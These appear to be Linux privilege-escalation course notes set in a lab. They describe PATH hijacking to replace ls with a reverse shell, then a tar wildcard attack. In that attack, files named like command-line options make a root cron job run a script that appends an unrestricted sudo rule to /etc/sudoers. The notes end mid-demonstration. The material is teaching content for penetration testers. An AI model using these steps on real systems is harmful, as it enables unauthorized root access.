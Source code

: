 [PATH](http://www.linfo.org/path_env_var.html) is an environment variable that specifies the set of directories where an executable can be located. 
- Creating a script or program in a directory specified in the PATH will make it executable from any directory on the system.
### abuse techniques
- modify path by adding . aka current working directory to replace a binary such as ls with reverse shell
# Wildcard Abuse

---
A wildcard character can be used as a replacement for other characters and are interpreted by the shell before other actions. Examples of wild cards include:

| **Character** | **Significance**                                                                                                                                      |
| ------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------- |
| `*`           | An asterisk that can match any number of characters in a file name.                                                                                   |
| `?`           | Matches a single character.                                                                                                                           |
| `[ ]`         | Brackets enclose characters and can match any single one at the defined position.                                                                     |
| `~`           | A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory. |
| `-`           | A hyphen within brackets will denote a range of characters.                                                                                           |
|               |                                                                                                                                                       |
An example of how wildcards can be abused for privilege escalation is the `tar` command, a common program for creating/extracting archives. If we look at the [man page](http://man7.org/linux/man-pages/man1/tar.1.html) for the `tar` command, we see the following:
```shell-session
htb_student@NIX02:~$ man tar


       --checkpoint-action=ACTION
              Run ACTION on each checkpoint.
```
The `--checkpoint-action` option permits an `EXEC` action to be executed when a checkpoint is reached (i.e., run an arbitrary operating system command once the tar command executes.) 

By creating files with these names, when the wildcard is specified, `--checkpoint=1` and `--checkpoint-action=exec=sh root.sh` is passed to `tar` as command-line options. Let's see this in practice.

### cronjob and tar abuse
Consider the following cron job, which is set up to back up the `/home/htb-student` directory's contents and create a compressed archive within `/home/htb-student`. The cron job is set to run every minute, so it is a good candidate for privilege escalation.

```shell-session
#
#
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```

We can leverage the wild card in the cron job to write out the necessary commands as file names with the above in mind. When the cron job runs, these file names will be interpreted as arguments and execute any commands that we specify.
```shell-session
htb-student@NIX02:~$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
htb-student@NIX02:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
htb-student@NIX02:~$ echo "" > --checkpoint=1
```
```shell-session
htb-student@NIX02:~$ ls -la

total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint=1
```